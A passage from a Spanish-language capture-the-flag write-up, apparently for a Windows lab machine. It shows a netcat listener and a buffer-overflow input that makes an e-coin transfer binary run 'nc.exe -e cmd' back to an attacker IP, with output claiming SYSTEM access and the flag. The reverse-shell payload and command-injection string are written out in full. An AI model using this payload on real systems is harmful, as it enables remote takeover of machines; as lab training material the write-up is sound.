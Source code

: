 1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el binario con el input malicioso

    ```bash
    python -c 'print "A"*32 + "C:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443"'
    #Output
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443

    Please enter your super secret 4 digit PIN code to login:
    [$] 0021
    [$] PIN is correct, access granted!
    Please enter the amount of e-coins you would like to transfer:
    [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443
    [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443 using our e-coin transfer application.
    [$] Executing e-coin transfer tool: C:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443
    ```

Ya vemos que hemos ganado acceso al systema como 
```bash
 nt authority\system 
```
 y podemos ver la flag.
